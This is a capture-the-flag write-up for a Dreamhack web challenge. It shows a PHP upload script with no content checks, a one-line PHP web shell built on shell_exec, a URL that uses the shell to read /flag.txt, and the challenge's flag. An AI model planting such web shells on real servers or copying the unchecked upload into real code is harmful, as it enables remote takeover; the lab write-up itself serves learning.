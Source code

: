```yaml
---
title: image-storage
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/38/](https://dreamhack.io/wargame/challenges/38/)

## Description
> It is a file storage service written in PHP.
>
> Use the file upload vulnerability to obtain the flag. The flag is located in ```/flag.txt```

### Attached

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```
{: file="./upload.php" }

## Analyzation

It does not check the file's content. Shell code can be easily uploaded.

## Solution

Upload the ```exploit.php``` file

```php
<?php
echo shell_exec($_GET['command'])
?>
```
{: file="exploit.php" }

(See [php shell_exec() vs exec()](https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec))

Then call that file

```
http://host3.dreamhack.games:17421/uploads/exploit.php?command=cat%20/flag.txt
```

The flag is

```
DH{c29f44ea17b29d8b76001f32e8997bab}
```